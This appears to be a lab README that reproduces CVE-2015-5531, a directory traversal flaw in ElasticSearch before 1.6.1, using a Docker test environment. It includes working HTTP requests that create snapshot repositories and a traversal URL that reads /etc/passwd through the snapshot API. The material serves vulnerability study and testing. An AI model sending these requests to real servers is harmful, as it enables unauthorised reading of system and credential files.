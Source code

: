 # ElasticSearch Snapshot and Restore Directory Traversal (CVE-2015-5531)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

In the ElasticSearch versions before 1.6.1, a directory traversal vulnerability exists in ElasticSearch's snapshot and restore functionality, allowing attackers to read arbitrary files on the system.

The conditions for exploiting this vulnerability vary depending on the specific version of the target: in ElasticSearch 1.5.1 and earlier versions, this vulnerability could be triggered without any configuration; in later versions, the `path.repo` configuration must be set in elasticsearch.yml. This configuration specifies a directory that must be writable and serves as the root location for backup repositories. Without this configuration, the snapshot and restore functionality is disabled by default.

References:

- <https://www.exploit-db.com/exploits/38383/>
- <http://www.freebuf.com/vuls/99942.html>

## Environment Setup

Execute the following commands to build and start an ElasticSearch server 1.6.0:

```
docker compose build
docker compose up -d
```

After the environment starts, you can access the ElasticSearch server at `http://your-ip:9200`.

## Vulnerability Reproduction

### 1. Create a Repository

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

![](1.png)

### 2. Create a Snapshot

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![](2.png)

### 3. Exploit Directory Traversal to Read Files

Send a request to read arbitrary files using directory traversal. For example, to read `/etc/passwd`:

```
http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![](3.png)

The file content will be included in the error message (encoded). After decoding, you can obtain the file content:

![](4.png)
